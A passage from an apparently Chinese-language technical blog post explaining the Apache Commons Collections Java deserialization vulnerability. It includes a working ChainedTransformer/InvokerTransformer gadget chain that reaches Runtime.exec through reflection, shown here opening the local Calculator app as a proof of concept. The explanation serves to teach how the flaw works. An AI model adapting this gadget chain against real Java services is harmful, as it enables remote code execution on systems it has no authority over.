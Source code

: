 至此，我们知道可以利用InvokerTransformer来调用外部命令了，那是不是只需要把一个我们自定义的InvokerTransformer序列化成字符串，然后再反序列化，接口实现远程命令执行：

![][5]

先将transformer对象序列化到文件中，再从文件中读取出来，并且执行其transform方法，就实现了攻击。

#### 你以为这就完了？

但是，如果事情只有这么简单的话，那这个漏洞应该早就被发现了。想要真的实现攻击，那么还有几件事要做。

因为，`newTransformer.transform(Runtime.getRuntime());`这样的代码，不会有人真的在代码中写的。

如果没有了这行代码，还能实现执行外部命令么？

这就要利用到Commons Collections中提供了另一个工具那就是ChainedTransformer，这个类是Transformer的实现类。

**ChainedTransformer类提供了一个transform方法，他的功能遍历他的iTransformers数组，然后依次调用其transform方法，并且每次都返回一个对象，并且这个对象可以作为下一次调用的参数。**

![][6]

那么，我们可以利用这个特性，来自己实现和`transformer.transform(Runtime.getRuntime());`同样的功能：

```java
 Transformer[] transformers = new Transformer[] {
    //通过内置的ConstantTransformer来获取Runtime类
    new ConstantTransformer(Runtime.class),
    //反射调用getMethod方法，然后getMethod方法再反射调用getRuntime方法，返回Runtime.getRuntime()方法
    new InvokerTransformer("getMethod",
        new Class[] {String.class, Class[].class },
        new Object[] {"getRuntime", new Class[0] }),
    //反射调用invoke方法，然后反射执行Runtime.getRuntime()方法，返回Runtime实例化对象
    new InvokerTransformer("invoke",
        new Class[] {Object.class, Object[].class },
        new Object[] {null, new Object[0] }),
    //反射调用exec方法
    new InvokerTransformer("exec",
        new Class[] {String.class },
        new Object[] {"open /Applications/Calculator.app"})
};

Transformer transformerChain = new ChainedTransformer(transformers);
```
    

在拿到一个transformerChain之后，直接调用他的transform方法，传入任何参数都可以，执行之后，也可以实现打开本地计算器程序的功能：

![][7]

那么，结合序列化，现在的攻击更加进了一步，不再需要传入`newTransformer.transform(Runtime.getRuntime());`这样的代码了，只要代码中有 `transformer.transform()`方法的调用即可，无论里面是什么参数：

![][8]

#### 攻击者不会满足于此


 [1]: https://www.hollischuang.com/archives/5177
 [2]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944480560097.jpg
 [3]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944485613275.jpg
 [4]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944494651843.jpg
 [5]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944505042521.jpg
 [6]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944497629664.jpg
 [7]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944539116926.jpg
 [8]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944538564178.jpg
 [9]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944509076736.jpg
 [10]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944537562975.jpg
 [11]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944519240647.jpg
 [12]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944537014741.jpg
 [13]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944526874284.jpg
 [14]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944525715616.jpg
 [15]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944525999226.jpg